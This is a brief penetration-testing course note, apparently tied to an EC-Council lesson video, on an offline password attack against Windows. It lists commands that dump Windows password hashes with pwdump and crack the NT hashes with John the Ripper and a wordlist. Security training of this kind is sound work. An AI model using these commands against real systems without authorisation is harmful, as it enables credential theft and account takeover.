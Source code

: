 # 04_Executean Offline Password Attack on Windows

[Executean Offline Password Attack on Windows 👉VIDEO &#128279;](https://codered.eccouncil.org/courseVideo/Kali-for-Penetration-Testers?lessonId=f7b8adca-0572-4bb0-9798-04f14b6538eb&finalAssessment=false)

C:\pwdump>pwdump.exe > <filename.txt>

- john --list==formats
  - john --format=nt <filename.txt> --wordlist=wl.lst
  - locate john.pot
